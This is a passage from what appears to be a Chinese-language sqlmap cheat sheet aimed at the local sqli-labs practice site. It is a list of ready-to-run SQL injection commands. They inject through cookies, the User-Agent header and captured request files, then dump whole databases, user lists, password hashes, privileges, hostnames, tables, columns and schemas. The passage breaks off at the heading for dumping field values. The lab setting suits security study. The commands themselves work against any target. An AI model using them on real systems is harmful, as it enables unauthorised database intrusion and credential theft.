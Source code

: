 `sqlmap -u "http:/localhost/sqli-labs-master/sqli-labs-master/Less-1"  --cookie="id=1" --level=2 (大于等于二即可)`

### 对目标 url 进行 User-Agent 注入

`sqlmap -u "http:/localhost/sqli-labs-master/sqli-labs-master/Less-1"  --level=3(大于等于三即可)`

### 利用抓包获取的报文进行注入

`sqlmap -r ./httprequest.txt`

### 脱库

`sqlmap -u "http:/localhost/sqli-labs-master/sqli-labs-master/Less-1/?id=1" -a`

### 爆用户

`sqlmap -u 'http:/localhost/sqli-labs-master/sqli-labs-master/Less-1/?id=1' --users`
`sqlmap -u 'http:/localhost/sqli-labs-master/sqli-labs-master/Less-1/?id=1' --current-user`

### 爆用户密码

`sqlmap -u 'http:/localhost/sqli-labs-master/sqli-labs-master/Less-1/?id=1' --passwords`

### 爆用户权限

`sqlmap -u 'http:/localhost/sqli-labs-master/sqli-labs-master/Less-1/?id=1' --privileges`

### 爆主机名

`sqlmap -u 'http:/localhost/sqli-labs-master/sqli-labs-master/Less-1/?id=1' --hostname`

### 爆库

`sqlmap -u "http:/localhost/sqli-labs-master/sqli-labs-master/Less-1/?id=1" --dbs  --batch`
`sqlmap -u "http:/localhost/sqli-labs-master/sqli-labs-master/Less-1/?id=1" --current-db  --batch`

### 爆表

`sqlmap -u "http:/localhost/sqli-labs-master/sqli-labs-master/Less-1/?id=1" -D DATABASENAME --tables --batch`

### 爆列

`sqlmap -u "http:/localhost/sqli-labs-master/sqli-labs-master/Less-1/?id=1" -D DATABASENAME -T TABLENAME --columns   --batch`

### 爆字段类型

`sqlmap -u 'http:/localhost/sqli-labs-master/sqli-labs-master/Less-1/?id=1' -D DATABASENAME --schema`

### 爆字段值
